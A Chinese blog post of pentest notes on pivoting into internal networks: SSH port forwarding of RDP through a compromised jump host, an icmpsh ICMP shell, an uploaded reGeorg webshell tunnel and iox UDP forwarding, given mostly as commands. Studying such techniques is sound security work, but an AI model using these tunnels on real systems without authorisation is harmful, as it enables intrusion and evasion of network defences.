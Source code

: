 ```yaml
---
title: 内网穿透-隧道搭建-001
layout: post
post-image: /assets/images/bg.jpg
description: 记录一些内网穿透工具和方法
tags:
- 内网穿透
- 隧道搭建
---
```


# 内网穿透-隧道搭建-001   
                                                                       --法外狂徒张三      


## SSH通道

将目标机器上的3389端口映射到vps上

**1.本地转发**

在vps上执行：

`ssh -CfNg -L 1153（VPS端口）:1.1.1.10:3389(目标机器及端口) root@192.168.1.11(被控跳板机)`

查看连接情况：

`Netstat -tulnp | grep "1153"`

连接目标机器3389

`rdesktop 127.0.0.1:1153(vps)`

**2.远程转发**

vps执行：

`ssh -CfNg -R 3307（VPS端口）:1.1.1.10:3389(目标机器及端口) root@192.168.1.11(被控跳板机)`

连接目标机器3389

`rdesktop 127.0.0.1:3307(vps)`

注：本地转发是将远程主机（服务器）某个端口的数据转发到本地机器的指定端口。远程端口转发则是在远程主机上监听一个端口，所有访问远程服务器指定端口的数据都会通过SSH隧道传输到本地的对应端口

**3.动态转发**

`ssh -CfNg -D 7000（监听端口） root@192.168.1.11(被控机器)`

SSH隧道常用参数

-C： 压缩传输，提高传输速度

-f：将SSH传输转入后台执行，不占用当前的shell

-N：建立静默连接（建立了连接，但是看不到具体会话）

-g：允许远程主机连接本地用于转发的端口

-L：本地端口转发

-R：远程端口转发

-D：动态转发（socks代理）

-P：指定SSH端口

## ICMP协议

使用工具icmpsh

关闭ping命令

`Sysctl -w net.ipv4.icmp_echo_ignore_all=1`

`Icmpsh.exe -t 192.168.1.7 -d 500 -b 30 -s 128`

## HTTP协议

工具：reGeorg

上传reg脚本后，当页面“Georg says, 'All seems fine'”，表示脚本运行正常

本地机器执行：

`python2 reGeorgSocksProxy.py -p 9999 -u http://ip:8080/tunnel/tunnel.jsp`

注：流量为明文，需要隐藏时可下载neo-reGeorg



## UDP

工具：IOX

```
./iox fwd -l 53 -r *127.0.0.1:8888 -k 000102 -u
./iox fwd -l *8888 -l *9999 -k 000102 -u
./iox fwd -r *127.0.0.1:9999 -r 8.8.8.8:53 -k 000102 -u
```

更多见官方介绍 ，[iox](https://github.com/EddieIvan01/iox)



---



